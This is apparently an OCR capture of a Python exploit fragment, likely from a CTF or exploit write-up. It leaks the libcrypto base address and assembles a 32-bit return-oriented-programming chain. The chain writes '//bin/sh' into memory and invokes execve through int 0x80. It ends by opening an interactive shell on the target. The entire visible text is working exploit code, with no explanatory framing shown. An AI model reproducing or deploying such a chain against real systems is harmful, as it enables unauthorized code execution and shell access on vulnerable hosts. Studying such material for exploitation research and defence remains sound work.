 ```python
libcrypto_base = leak_libcrypto_base()
print('[+] Leaked libcrypto base: 0x{:08x}'.format(libcrypto_base))

rebase_0 = lambda x : p32(x + libcrypto_base)

rop  = rebase_0(0x000c9146) # 0x000c9146: pop eax; ret; 
rop += '//bi'
rop += rebase_0(0x00009328) # 0x00009328: pop edx; ret; 
rop += rebase_0(0x001e21a0)
rop += rebase_0(0x0011fdc8) # 0x0011fdc8: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x000c9146) # 0x000c9146: pop eax; ret; 
rop += 'n/sh'
rop += rebase_0(0x00009328) # 0x00009328: pop edx; ret; 
rop += rebase_0(0x001e21a4)
rop += rebase_0(0x0011fdc8) # 0x0011fdc8: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x000c9146) # 0x000c9146: pop eax; ret; 
rop += p32(0x00000000)
rop += rebase_0(0x00009328) # 0x00009328: pop edx; ret; 
rop += rebase_0(0x001e21a8)
rop += rebase_0(0x0011fdc8) # 0x0011fdc8: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x0000641e) # 0x0000641e: pop ebx; ret; 
rop += rebase_0(0x001e21a0)
rop += rebase_0(0x00004c32) # 0x00004c32: pop ecx; ret; 
rop += rebase_0(0x001e21a8)
rop += rebase_0(0x00009328) # 0x00009328: pop edx; ret; 
rop += rebase_0(0x001e21a8)
rop += rebase_0(0x000c9146) # 0x000c9146: pop eax; ret; 
rop += p32(0x0000000b)
rop += rebase_0(0x0014d146) # 0x0014d146: int 0x80;

do_rop(rop, libcrypto_base)

p.interactive()
```
